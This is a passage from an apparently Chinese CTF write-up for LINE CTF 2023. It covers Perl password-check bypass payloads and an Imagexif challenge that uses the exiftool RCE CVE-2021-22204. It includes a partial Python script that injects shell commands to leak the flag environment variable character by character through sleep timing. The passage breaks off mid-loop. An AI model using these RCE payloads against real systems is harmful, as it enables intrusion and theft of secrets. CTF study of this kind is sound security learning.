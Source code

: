 ```perl
    print "Congrats! Flag is LINECTF{redacted}"
} else {
    print "wrong password :(";
    die();
};
```

最直观的方式是password=20230325，但要求我们必须有下划线/中划线+字母，常规的可以被eval执行的函数又被ban了……来学习一下3种payload

- `password=20230326-__LINE__`

这里用到了特殊token `__LINE__`表示当前执行的行号（虽然我没想到这里的`__LINE__`竟然是1不是真实的行号

![image-20230327150223805](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230327150223805.png)

测试发现也是1，可能是语言特性了（）

- `password=20230325-v48`

![image-20230327150605096](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230327150605096.png)

v-string以`v`开头后接数字，从`v33`开始后面遵循ascii，所以`v48`为0，`v65`为A

- `password=040p20-062647503-8`

040p20是指八进制数40的20次幂，即：33554432-13324099-8=20230325，纯进制上的计算

最终

![image-20230327151417010](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230327151417010.png)

`LINECTF{3e05d493c941cfe0dd81b70dbf2d972b}`

## Imagexif

> This site provides you with the information of the image(EXIF) file. But there is a dangerous vulnerability here. I hope you get the data you want with the various functions of the system and your imagination.
>
> http://34.85.58.100:11008/

一看到exif就想到之前的CVE-2021-22204了（可以rce），正好docker里的exiftool版本就是存在漏洞的版本，不过flag在内网环境的env里，我们要想办法把这个环境变量读出来

怎么外带flag呢？整个web服务实际是通过nginx做反向代理让我们来访问的，app所在的内网设置了`internal: true`，没法弹shell了

![image-20230327174634871](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230327174634871.png)

一个很费劲的方式是用char-by-char-sqli的方式挨个注出来（有一说一 我并没有想到……真的是太久不打了失去敏锐度了 我反思 我忏悔） | [link](https://discord.com/channels/976391772500553758/976397495552868432/1089340195452768296)

```python
import requests as r
import time
import string
import os
import base64
import shlex

# https://github.com/OneSecCyber/JPEG_RCE
url = "http://34.85.58.100:11008/upload"

chars =  string.digits + string.ascii_letters + "{" + "}"
flag = ""
count = 1
while True:
    for x in chars:
        payload = """system('to_test_char="{character}"; if [ $(echo ${{FLAG}}|cut -c {iterator}) = $to_test_char ]; then sleep 2s; fi')""".format(replace=x,character=x,iterator=count)
        # print(payload)
```